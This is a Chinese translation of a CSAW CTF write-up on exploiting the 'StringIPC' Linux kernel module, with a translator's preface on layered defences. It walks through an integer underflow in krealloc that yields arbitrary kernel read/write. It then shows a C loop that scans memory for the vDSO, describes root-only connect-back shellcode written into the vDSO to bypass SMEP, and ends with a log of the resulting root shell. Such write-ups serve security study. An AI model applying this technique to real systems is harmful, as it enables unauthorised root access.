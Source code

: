 ```yaml
---
layout: post
title:  "Bypassing SMEP Using vDSO Overwrites(使用vDSO重写来绕过SMEP防护)"
date:   2015-11-25 3:30:02
summary: 在Intel的SMEP( Sandybridge加入）和SMAP（本来应该是Haswell加入，最终推迟到了broadwell时才加入）中SMEP已经大规模的部署到了生产环境中，由于一些媒体的误导，企业和个人都对SMEP有着过高的期望，斯拉夫兵工厂至少在13个月以前就有针对SMEP绕过的weaponized exploit，这次itszn的绕过SMEP防护的实现非常的精彩，直接把SMEP绕过打成了“白菜价”，而另外一方面，经过h4rdenedzer0的研究和测试发现，虽然PaX/Grsecurity中的类似USERCOPY可以轻松防御这种绕过，但更有意思的是没有任何防御feature的情况下仅靠代码级别的调整也能启到security through obscurity的作用，至少可以防止massive exploit的通杀。这个case值得关注的点还是在于单点防御是无效的，系统层的加固必须以纵深防御的思路来做
categories: translation
---
```


Shawn: Intel的SMEP( Sandybridge加入）和SMAP（本来应该是Haswell加入，最终推迟到了broadwell时才加入）中SMEP已经大规模的部署到了生产环境中，由于一些媒体的误导，企业和个人都对SMEP有着过高的期望，斯拉夫兵工厂至少在13个月以前就有针对SMEP绕过的weaponized exploit，这次itszn的绕过SMEP防护的实现非常的精彩，直接把SMEP绕过打成了“白菜价”，而另外一方面，经过h4rdenedzer0的研究和测试发现，虽然PaX/Grsecurity中的类似USERCOPY可以轻松防御这种绕过，但更有意思的是没有任何防御feature的情况下仅靠代码级别的调整也能启到security through obscurity的作用，至少可以防止massive exploit的通杀。这个case值得关注的点还是在于单点防御是无效的，系统层的加固必须以纵深防御的思路来做，多个mitigation feature+代码级加固会让兵工厂也很蛋疼，当然另外一方面bypass难度提升了他们的利润也会上升;-)

原文地址 [Bypassing SMEP Using vDSO Overwrites](http://itszn.com/blog/?p=21)


译者：n3o4po11o

在今年的CSAW(Cyber Security Awareness Week)决赛中有几个内核相关的挑战。下文是关于我解决题名为"StringIPC"的思路。(作者为[Michael Coppola](https://twitter.com/mncoppola))

摆在我们面前的机器为一台64位ubuntu 14.04.3运行了3.13版本的内核并开启SMEP，kptr_restrict，demsg_restrict的虚拟机。内核中加载了名为"StringIPC"的内核模块，但在home目录中提供了该模块的源码。你可以在[这里](https://github.com/mncoppola/StringIPC/blob/master/main.c)找到源码，我也会在下文中展示一些重要的部分。

##分析内核模块

StringIPC模块实现了最基本的进程间通信的功能，允许对位于/dev/csaw的设备在不同通道下进行读写数据的操作。有8个控制码（codes）可以用来对通道进行创建，修改和读写数据。

{% highlight html %}
#define CSAW_IOCTL_BASE     0x77617363
#define CSAW_ALLOC_CHANNEL  CSAW_IOCTL_BASE+1
#define CSAW_OPEN_CHANNEL   CSAW_IOCTL_BASE+2
#define CSAW_GROW_CHANNEL   CSAW_IOCTL_BASE+3
#define CSAW_SHRINK_CHANNEL CSAW_IOCTL_BASE+4
#define CSAW_READ_CHANNEL   CSAW_IOCTL_BASE+5
#define CSAW_WRITE_CHANNEL  CSAW_IOCTL_BASE+6
#define CSAW_SEEK_CHANNEL   CSAW_IOCTL_BASE+7
#define CSAW_CLOSE_CHANNEL  CSAW_IOCTL_BASE+8
{% endhighlight %}

CSAW_ALLOC_CHANNEL允许用户创建一个新通道和根据给定的大小创建一个新缓冲区，CSAW_GROW_CHANNEL和CSAW_SHRINK_CHANNEL使用了krealloc来改变通道的缓冲区大小。CSAW_READ_CHANNEL和CSAW_WRITE_CHANNEL用来读取和写入由CSAW_SEEK_CHANNEL所指向的当前通道的内存数据。最后CSAW_OPEN_CHANNEL和CSAW_CLOSE_CHANNEL用来确定当前与ioctl进行交互的通道。

Bug存在于使用了krealloc的realloc_ipc_channel:
{% highlight html %}
static int realloc_ipc_channel ( struct ipc_state *state, int id, size_t size, int grow )
{
    struct ipc_channel *channel;
    size_t new_size;
    char *new_data;

    channel = get_channel_by_id(state, id);
    if ( IS_ERR(channel) )
        return PTR_ERR(channel);

    if ( grow )
        new_size = channel->buf_size + size;
    else
        new_size = channel->buf_size - size;

    new_data = krealloc(channel->data, new_size + 1, GFP_KERNEL);
    if ( new_data == NULL )
        return -EINVAL;

    channel->data = new_data;
    channel->buf_size = new_size;

    ipc_channel_put(state, channel);

    return 0;
}
{% endhighlight %}

当我们试图缩小通道缓冲区的大小时，我们缩小了一个比原来缓冲区大小还大1的值，此时new_size会发生underflow从而变成了INT_MAX。当krealloc调用时new_size+1，接着发生overflow回到了0。从krealloc的源码可以看出，当new_size为0时，返回一个ZERO_SIZE_PTR：
{% highlight html %}
void *krealloc(const void *p, size_t new_size, gfp_t flags) {
    void *ret;

    if (unlikely(!new_size)) {
         kfree(p);
         return ZERO_SIZE_PTR;
    }
...
{% endhighlight %}
ZERO_SIZE_PTR定义为((void \*)16)。当我们重新调整大小后，channel->data=0x10而channel_buf_size=INT_MAX。通过在0x10处获取偏移量，我们可以在内核空间(kernelspace)实现任意读写。

##任意写利用

既然我们可以任意读写，我们可以开始创建exploit。由于此时SMEP开启，我们不能直接覆盖一些数据然后跳转到用户空间(userspace)去执行已经提前准备好的shellcode。为了绕过SMEP我们可以使用一个覆盖vDSO的技术，来让另外一个进程以root权限运行进而运行我们反弹（conncet-back）shellcode。

整体的思路如下：vDSO同时映射在内核空间以及每一个进程的虚拟内存中，包括那些以root权限运行的进程。通过调用那些不需要上下文切换（context switching）的系统调用可以加快这一步骤(定位vDSO)。vDSO在用户空间(userspace)映射为R/X，而在内核空间(kernelspace)则为R/W。这允许我们在内核空间修改它，接着在用户空间执行。

下面是使用这个技术的步骤：
{% highlight html %}
1.实现任意读写
2.在内核空间定位vDSO
3.为root权限运行的进程创建反弹shellcode
4.用shellcode覆盖部分vDSO
5.监听反弹root shell
{% endhighlight %}
在我们利用StringIPC模块时，我们已经能够任意读写内存了，所以下一步我们将在runtime定位vDSO.

##Locating vDSO

下面是内核代码中用于在内核空间初始化vDSO页的代码段：

{% highlight html %}
static int __init init_vdso_vars(void) {
    int npages = (vdso_end - vdso_start + PAGE_SIZE - 1) / PAGE_SIZE;
    int i;
    char *vbase;
    vdso_size = npages << PAGE_SHIFT;
    vdso_pages = kmalloc(sizeof(struct page *) * npages, GFP_KERNEL);
    if (!vdso_pages)
        goto oom;
    for (i = 0; i < npages; i++) {
        struct page *p;
        p = alloc_page(GFP_KERNEL);
        if (!p)
            goto oom;
        vdso_pages[i] = p;
        copy_page(page_address(p), vdso_start + i*PAGE_SIZE);
    }
    vbase = vmap(vdso_pages, npages, 0, PAGE_KERNEL);
...
{% endhighlight %}
所以在内核空间中通过alloc_page分配了vDSO页，并且指针保存在了vdso_pages数组中。只有少数的几种方法能够定位这些页。如果能够读取/proc/kallsyms，你将能够通过vdso_pages直接获取这些地址。然而，这种情况在这次比赛不适用。第二种方法则是在内核空间中搜寻每一个页的开头，看是否有ELF头也出现了部分vDSO的映射。我们可以通过vDSO的标志(signatures)进一步缩小这些页的范围。下面是实现这个思路的代码：

{% highlight html %}
void* header = 0;
void* loc = 0xffffffff80000000;
size_t i = 0;
for (; loc<0xffffffffffffafff; loc+=0x1000) {
    readMem(&header,loc,8);
    if (header==0x010102464c457f) {
        fprintf(stderr,"%p elf\n",loc);
        readMem(&header,loc+0x270,8);
        //Look for 'clock_ge' signature (may not be at this offset, but happened to be)
        if (header==0x65675f6b636f6c63) {
            fprintf(stderr,"%p found it?\n",loc);
            break;
        }
    }
}
{% endhighlight %}
现在我们找到了vDSO所在的区域，我们就能用shellcode来覆盖它。

##反弹shellcode

此处用到的反弹shellcode和常见的x86-64 shellcode差不多，但有几个修改的地方。第一个修改为：只为root进程创建反弹shell。因为每一个调用gettimeofday的进程都会触发我们的shellcode，我们不需要那些没有root权限的进程的shell权限。我们可以通过调用 0x66(sys_getuid)系统调用并将其与0进行比较。如果没有root权限，我们继续调用0x66(sys_gettimeofday)系统调用，所以其他没有不相关的进程也不会受到太多影响。但同样在root进程当中，我们不想造成更多的问题，我们将通过0x39系统调用 fork一个子进程，父进程继续执行sys_gettimeofday，而由子进程来执行反弹shell。

我所使用的shellcode的汇编代码可以在[这里](https://gist.github.com/itsZN/1ab36391d1849f15b785)。它将连接到127.0.0.1:3333并执行"/bin/sh"

我们要做的最后一件事则是，dump vDSO并在gettimeofday所在的偏移处检查。只要我们知道我们可以在这个位置覆盖上shellcode，我们就可以在这等待某个进程进行调用。我设置了一个简单的cron任务来完成这个任务(root进程调用gettimeofday)。我最后的代码可以在[这里](https://gist.github.com/itsZN/20144eb7beefbc301bcf)找到。下面是程序运行的情况：

{% highlight html %}
csaw@team7:~$ id
uid=1000(csaw) gid=1000(csaw) groups=1000(csaw)
csaw@team7:~$ ./a.out 
allocate fd: 3 ret: 0 id:1
Shrink: 0 err:0
ZERO_SIZED_POINTER = 0x10
0xffffffff817bc000 elf
0xffffffff817d1000 elf
0xffffffff81b6c000 elf
0xffffffff81b9e000 elf
0xffffffff81c03000 elf
0xffffffff81c03000 found it?
Listening on [0.0.0.0] (family 0, port 3333)
Connection from [127.0.0.1] port 3333 [tcp/*] accepted (family 2, sport 58568)
id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

##Final Notes

vDSO不是唯一一个同时映射在内核空间和用户空间的内存。在x86-64当中,vSYSCALL与vDSO实现类是的功能，但多了一点特性就是每次重启都在同一个位置（可能可以通过内核版本进行预测）。然而 kernel.vsyscall64并没有在本次比赛启用，所以我们将通过vDSO来完成这个目的。如果vm.vdso_enable设置为0，then vDSO will also be bypassed and the libc wrappers will default to the normal syscalls. 

vDSO/vSYSCALL overwriting是一个非常有用的技术，它能够用在对于中断内容(interrupt context)的利用，因为它不需要本地进程来映射一段内存，或者提升权限。

在解决这个问题当中本文提到的解决思路也不是唯一的，另外一个解决思路可以在[这里](https://github.com/mncoppola/StringIPC/blob/master/solution/solution.c)找到
